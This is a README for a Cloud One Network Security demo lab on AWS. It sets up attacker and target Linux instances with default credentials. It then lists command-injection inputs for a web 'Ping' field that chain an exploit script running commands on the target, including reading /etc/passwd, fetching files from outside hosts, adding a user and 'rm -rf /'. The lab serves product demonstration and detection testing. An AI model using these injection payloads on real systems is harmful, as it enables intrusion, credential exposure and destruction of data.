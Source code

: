 # Cloud One - Network Security Demo
Requirements:

-- AWS Account
-- NSVA Deployment (Terraform)
-- 2 Ubuntu Linux Instances
-- 1 Windows Instance

## Phase1 - Demo Preparation
- Create 2 new Linux Instances;
- The attacker instance must be placed in the same subnet of the bastion machine;
- The target instance must be placed in the workload subnet;
- On the Advanced Options field, paste the script attacker.sh and target.sh (1 script in each instance);

## Phase2 - Testing the Demo
- Connect on the Linux Instance where you executed the attacker script through http://public-ip

-- username: administrator 
-- password: password

- Connect on the Linux Instance where you executed the target script through http://private-ip (from the windows instance)

## Phase3 - Executing the Demo
- Command Injection Menu
-- Use the "Ping" field to execute the attacks below:
- 127.0.0.1| python exploit.py http://target-ip/hello "curl target-ip"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "cat /etc/passwd"
- 127.0.0.1| python exploit.py http://target-ip/hello "wget http://2016.eicar.org/download/eicar.com"
- 127.0.0.1| python exploit.py http://target-ip/hello "curl http://wrs21.winshipway.com/"
- 127.0.0.1| python exploit.py http://target-ip/hello "adduser YouHaveBeenPwned"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "rm -rf /"

## Phase3 - SMS/C1NS Logs
Check the logs

.

